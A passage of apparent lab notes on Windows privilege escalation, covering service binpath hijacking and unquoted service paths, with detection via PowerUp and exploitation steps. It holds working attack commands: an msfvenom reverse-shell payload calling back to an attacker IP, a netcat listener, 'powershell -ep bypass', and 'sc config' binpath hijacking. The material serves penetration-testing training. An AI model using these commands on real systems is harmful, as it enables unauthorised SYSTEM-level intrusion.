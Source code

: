 ### Windows VM

1. Place `reverse.exe` in` 'C:\Temp'`
2. In command prompt type: 
```console
C:\Temp> sc config daclsvc binpath= "C:\Temp\reverse.exe"
```
3. In command prompt type: 
```console
C:\Temp> sc start daclsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.

# <span style="color:lightblue">Unquoted Service Paths</span>

## <span style="color:lightgreen">Methodology</span>

When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege).

In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

## <span style="color:lightgreen">Detection</span>

1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the unquoted service field)
```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```

![image](https://user-images.githubusercontent.com/59029171/161141363-e21f53f1-1e4c-4006-ade0-b30e7286f4af.png)

##  <span style="color:lightgreen">Exploitation</span>
### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o common.exe
```
3. Transfer the generated file, `common.exe`, to the Windows VM.

